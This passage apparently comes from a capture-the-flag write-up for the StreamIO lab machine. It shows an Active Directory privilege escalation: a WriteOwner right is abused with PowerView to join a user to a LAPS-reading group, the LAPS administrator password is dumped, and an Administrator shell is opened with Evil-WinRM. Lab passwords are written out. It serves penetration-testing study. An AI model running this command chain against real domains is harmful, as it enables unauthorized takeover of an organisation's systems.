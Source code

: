 JDGODD user has `writeowner` on `core staff` whom has LAPS permission: 

![](@attachment/Clipboard_2022-09-13-17-21-53.png)

First, let's upload powerview:

```bash
*Evil-WinRM* PS C:\Users\nikk37\Documents> upload ~/tools/ad_tools/PowerTools/PowerView/powerview.ps1
Info: Uploading ~/tools/ad_tools/PowerTools/PowerView/powerview.ps1 to C:\Users\nikk37\Documents\powerview.ps1

                                                             
Data: 484392 bytes of 484392 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\nikk37\Documents> Import-Module .\powerview.ps1

```

We have user, JDGOdd, we added him to CORE STAFF because we have the 'WriteOwner'.

```bash
*Evil-WinRM* PS C:\Users\nikk37\Documents> $Password = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\nikk37\Documents> $Cred = New-Object System.Management.Automation.PSCredential('StreamIO\JDGodd', $Password)
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity "StreamIO\JDGodd"
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainGroupMember -Identity "Core Staff" -Members "StreamIO\JDGodd" -Credential $Cred
```

Now Just like in Timelapse machine we exploit LAPS by dumping a temporary password for the administrator.  

```bash
└─$ python3 laps.py -u JDGodd -p JDg0dd1s@d0p3cr3@t0r -d streamio.htb 
LAPS Dumper - Running at 09-14-2022 13:38:34
DC NE7/,;D8%1{$xZ
                                                                                                                                                                                             
┌──(user㉿marco)-[~/tools/ad_tools/LAPSDumper]
└─$ evil-winrm -i 10.10.11.158 -u Administrator -p 'NE7/,;D8%1{$xZ'          

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
streamio\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
